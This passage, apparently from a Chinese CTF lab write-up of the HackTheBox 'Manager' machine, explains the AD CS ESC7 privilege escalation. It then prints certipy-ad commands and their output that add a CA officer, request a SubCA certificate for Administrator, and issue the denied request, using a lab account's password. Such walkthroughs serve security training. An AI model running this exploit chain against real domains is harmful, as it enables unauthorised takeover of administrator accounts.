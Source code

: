 ```bash
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates
```

从枚举结果可知，可以使用 `raven` 进行 `ESC7` 攻击，让我们详细分析下 `ESC7` 漏洞的原理：

`ESC7` 本质上通过滥用证书授权权限进行提权。该攻击方式的原理如下：

1. 如果账户具有 `ManageCA` 权限，我们可以将 `ManageCertificate` 权限分配给任何帐户。
2. 如果账户具有 `ManageCertificates` 权限，我们可以远程批准待处理的证书请求，绕过 `CA certificate manager approval` 的保护。
3. `SubCA` 是ADCS内置的证书模板，可以被 `ESC1` 攻击。但是只允许 `Domain Admins` 和 `Enterprise Admins` 注册。
4. 通过结合以上两个权限，我们对 `SubCA` 证书模板发起 `ESC1` 攻击 (由于我们没有注册权限，所以会遇到 `CERTSRV_E_TEMPLATE_DENIED` 错误)，我们记录下发起注册的ID和使用的私钥。然后使用 `ManageCertificates` 权限批准我们注册的证书  (根据上一步记下的ID进行批准)。最后我们根据ID和记录的私钥，检索刚刚批准颁发的证书，并用其进行身份认证。

注：`ESC1` 攻击原理可以阅读  **红队靶场笔记 01-Escape**

接下来我们利用 `ESC7` 漏洞提权到 `Administrator` 权限

第一步：通过 `ManageCa` 权限，赋予自己 `ManageCertificates` 权限 (使用 `-add-officer` 参数)

```bash
kali@kali[~]$ certipy-ad ca -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -add-officer raven
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```

第二步： 使用 `SubCA` 证书模板，注册一个 `SAN` 为 `Administrator` 的证书

```bash
kali@kali[~]$ certipy-ad req -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -dc-ip 10.10.11.236 -template SubCA -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 20
Would you like to save the private key? (y/N) y
[*] Saved private key to 20.key
[-] Failed to request certificate
```

记下我们的 `Request ID` 并 (输入 y) 保留私钥

第三步：通过 `ManageCertificates` 权限发布刚刚申请失败的证书

```bash
kali@kali[~]$ certipy-ad ca -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -issue-request 20 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```
